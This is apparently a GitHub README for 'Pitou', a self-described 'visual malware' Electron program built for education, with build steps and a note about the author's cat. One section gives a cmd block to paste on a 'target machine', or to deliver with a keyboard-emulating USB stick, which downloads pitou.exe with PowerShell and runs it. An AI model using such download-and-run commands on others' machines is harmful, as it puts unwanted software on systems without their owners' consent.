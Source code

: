 # Pitou 
Pitou is a visual malware developed for education purposes.

This program is written in Javascript and is made to run with [Electron](https://www.electronjs.org/). Some libraries are required, [see](#libs) the list of libraries used in this project.

![alt text](./demo.png)

## How to use
### Disclaimer
- This is for academic purposes, the use of this software is your responsibility.

### Use with Node.js
1) Run `npm install`.
2) Run `npm run start`.

### Use a compiled version (Recommended)
1) Garb a compiled version of the program.
2) Run `pitou.exe`.

## Compile using Electron-Builder
To compile from source, you will need to follow the instructions listed below.

1) Run `npm install`
2) Install [Electron-Builder](https://www.electron.build/).
3) Run `electron-builder --win portable`.
4) Change `--win` with the os you are using.

Note that the program is already compiled in the Releases section.

## Libs
Here is the list of used libraries, you can download all of them using `npm install`.
- `Electron` - Used to display windows.

## Install & Run from command line
This can be usefull for exemple if you want to use a USB stick which emulate a keyboard when you plug it into a machine.

### Window
Copy and paste the commands in a cmd on a target machine.

```bash
cd %TEMP%
powershell wget "https://github.com/AntoineBRTL/Pitou/releases/download/v2.0.0/pitou.exe" -outfile "p.exe"
p.exe
exit
```

## Context
Pitou is my cat and I love him so much that I've decided to honour him doing this program.
Please, he is so nice so take care of him and he will be happy, and you'll never forget him ...
Lila is his mother and Clony is his sister.
